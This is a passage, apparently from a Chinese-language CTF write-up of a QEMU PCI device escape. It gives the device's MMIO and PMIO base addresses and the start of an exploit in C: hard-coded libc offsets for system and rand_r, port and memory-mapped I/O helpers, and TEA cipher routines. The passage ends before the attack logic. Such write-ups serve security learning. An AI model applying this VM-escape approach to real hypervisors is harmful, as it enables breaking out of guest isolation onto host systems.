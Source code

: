 根据 flags 定义

```c
#define IORESOURCE_IO		0x00000100	/* PCI/ISA I/O ports */
#define IORESOURCE_MEM		0x00000200
```

resource0 MMIO，基址为 0xfebf1000

resource1 PMIO，基址为 0xc040



#### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/io.h>

const uint64_t system_libc = 0x55410;
const uint64_t rand_r_libc = 0x4aeb0;
const uint32_t pmio_base = 0xc040;
uint64_t mmio_mem;
 
void mmio_write(uint64_t addr, uint64_t val){
    *(uint64_t *)(mmio_mem + addr) = val;
}
 
uint64_t mmio_read(uint64_t addr){
    return *(uint64_t *)(mmio_mem + addr);
}

void pmio_write(uint32_t addr, uint32_t val){
    outl(val, pmio_base+addr);
}

uint32_t pmio_read(uint32_t addr){
    return (uint32_t)inl(pmio_base+addr);
}

void tea_encrypt(uint32_t* v, uint32_t* k) { 
    uint32_t v0=v[0], v1=v[1], sum=0, i;           /* set up */  
    uint32_t delta=0x9e3779b9;                     /* a key schedule constant */  
    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */  
    for (i=0; i < 32; i++) {                       /* basic cycle start */  
        sum += delta;  
        v0 += ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);  
        v1 += ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);  
    }                                              /* end cycle */  
    v[0]=v0; v[1]=v1;  
}  
void tea_decrypt(uint32_t* v, uint32_t* k) {  
    uint32_t v0=v[0], v1=v[1], sum=0xC6EF3720, i;  /* set up */  
    uint32_t delta=0x9e3779b9;                     /* a key schedule constant */  
    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */  
    for (i=0; i<32; i++) {                         /* basic cycle start */  
        v1 -= ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);  
        v0 -= ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);  
        sum -= delta;  
    }                                              /* end cycle */  
    v[0]=v0; v[1]=v1;  
}  
```